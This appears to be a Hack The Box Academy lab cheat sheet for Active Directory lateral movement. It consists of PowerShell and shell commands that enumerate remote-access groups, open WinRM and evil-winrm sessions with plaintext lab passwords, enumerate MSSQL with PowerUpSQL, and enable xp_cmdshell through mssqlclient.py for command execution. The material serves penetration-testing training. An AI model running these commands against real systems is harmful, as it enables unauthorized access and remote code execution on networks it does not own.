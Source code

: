 
Check Group Membership
```powershell-session
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```
```powershell-session
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```

Establish winrm session via windows 
```powershell-session
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```

Connecting with WinRM via evil-winrm
```shell-session
evil-winrm -i 10.129.201.234 -u forend
```

Enumerate powerupsql
```powershell-session
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain
```

Check Version Number with sql query
```powershell-session
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

Connecting to sql server via mssqlclient.py

```shell-session
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

Once connected activate shell
```shell-session
SQL> enable_xp_cmdshell
```


